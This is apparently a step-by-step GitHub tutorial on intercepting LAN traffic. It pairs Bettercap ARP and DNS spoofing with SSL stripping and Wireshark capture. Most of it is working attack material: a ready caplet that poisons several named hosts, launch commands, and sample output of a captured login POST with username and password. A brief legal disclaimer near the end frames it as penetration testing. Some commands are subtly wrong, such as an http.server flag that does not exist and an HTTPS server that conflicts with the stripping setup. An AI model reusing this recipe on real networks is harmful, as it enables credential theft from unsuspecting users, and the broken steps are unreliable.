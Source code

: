
# **Using Wireshark, Bettercap, and a Local Server for DNS Spoofing**

This article provides a detailed guide on how to **use Wireshark, Bettercap, and a local HTTPS server** to perform **DNS spoofing** and monitor network traffic. You'll learn how to redirect traffic from a target device to a **local server** using DNS spoofing, ARP spoofing, and SSL stripping.

---

## **Setup Overview**

### Tools Used:
- **Bettercap**: For DNS spoofing, ARP spoofing, and SSL stripping.
- **Wireshark**: To monitor and analyze network traffic.
- **Local HTTPS Server**: To serve content over HTTPS.
  
**Goal**: Redirect requests for `cloudmateria.com` to a local HTTPS server and capture relevant data.

---

## **Step 1: Set Up the Local HTTPS Server**

1. **Generate a Self-Signed SSL Certificate**:
   ```bash
   openssl req -newkey rsa:2048 -nodes -keyout mykey.key -x509 -days 365 -out mycert.crt
   ```

2. **Combine the Key and Certificate**:
   ```bash
   cat mycert.crt mykey.key > mycert.pem
   ```

3. **Run the Local HTTPS Server**:
   ```bash
   python3 -m http.server 443 --certfile mycert.pem
   ```

   This starts a **local HTTPS server** on port **443**, ready to serve content.

---

## **Step 2: Configure Bettercap for DNS and ARP Spoofing**

Create a Bettercap **caplet script** called **`spoof.cap`** with the following content:

```plaintext
set dns.spoof.all false
set dns.spoof.domains cloudmateria.com
set dns.spoof.address 192.168.1.10
dns.spoof on

set arp.spoof.targets 192.168.1.2,192.168.1.14,192.168.1.24,192.168.1.6,192.168.1.11
arp.spoof on
net.probe on

https.proxy on
set https.proxy.sslstrip true
```

This script will:
- **Redirect requests** for `cloudmateria.com` to your local server at **192.168.1.10**.
- **Spoof ARP responses** to reroute traffic from multiple devices.
- **Enable HTTPS proxy with SSL stripping** to intercept and downgrade HTTPS traffic to HTTP.

---

### **How to Load and Run the Caplet in Bettercap**

1. **Open a terminal** and launch Bettercap:
   ```bash
   sudo bettercap -iface eth0
   ```

2. **Load and Run the Caplet**:
   ```bash
   caplet /path/to/spoof.cap
   ```

This starts DNS spoofing, ARP spoofing, and SSL stripping.

---

## **Step 3: Monitor Traffic with Wireshark**

1. **Start Wireshark** and select the network interface (e.g., `eth0` or `wlan0`).
2. **Apply the Filter** to View HTTPS Traffic:
   ```plaintext
   ip.addr == 192.168.1.2 and tcp.port == 443
   ```
3. **Start Capture** and generate traffic from the target devices.

### **Inspect Downgraded Traffic**

With **SSL stripping** enabled, HTTPS connections to `cloudmateria.com` will be downgraded to **HTTP**, and you can capture the unencrypted traffic.

---

## **Step 4: Test DNS Spoofing on the Target Device**

1. On one of the **target devices**:
   - Open a browser and visit `https://cloudmateria.com`.

2. The browser will be **redirected to your local HTTPS server** at **192.168.1.10**.

3. **Wireshark** will display the captured packets, including:
   - DNS requests and responses.
   - HTTP requests and responses (after SSL stripping).
   - Any **user input** or form data submitted via the website.

---

## **Expected Wireshark Output**

You should see:
- **DNS Spoofing Results**:
   ```plaintext
   DNS 192.168.1.2 → 192.168.1.10 A cloudmateria.com
   ```
- **ARP Spoofing Packets**:
   ```plaintext
   ARP Who has 192.168.1.10? Tell 192.168.1.2
   ```
- **HTTP Requests (after SSL Stripping)**:
   ```plaintext
   GET / HTTP/1.1
   Host: cloudmateria.com
   ```
- **Captured User Data**:
   If the spoofed site contains an **input form**, the submitted data will appear in the captured HTTP traffic:
   ```plaintext
   POST /login HTTP/1.1
   Host: cloudmateria.com
   Content-Type: application/x-www-form-urlencoded

   username=admin&password=12345
   ```

---

## **Troubleshooting**

1. **DNS Cache Issue**:  
   Flush the DNS cache on the target device to ensure it queries the fake DNS server:
   - **Windows**:
     ```bash
     ipconfig /flushdns
     ```
   - **Linux/macOS**:
     ```bash
     sudo systemd-resolve --flush-caches
     ```

2. **Browser Warnings**:  
   If the browser warns about a certificate error, **install and trust your self-signed certificate** on the target device.

3. **No HTTPS Traffic Visible**:  
   - Verify that **SSL stripping** is working.
   - Make sure the **target device** is on the same network and is sending traffic through your machine.

---

## **Legal and Ethical Considerations**

DNS spoofing and ARP spoofing are **intrusive techniques** and should only be used with **explicit permission** in **controlled environments**. Unauthorized interception of network traffic is illegal in many jurisdictions.

---

## **Conclusion**

By combining **Wireshark**, **Bettercap**, and a **local HTTPS server**, you can successfully perform DNS spoofing and capture traffic, including **downgraded HTTPS traffic**. This setup is useful for **ethical hacking, penetration testing, or network analysis**. Ensure you understand the **legal boundaries** when using these techniques and always conduct testing in environments where you have permission.
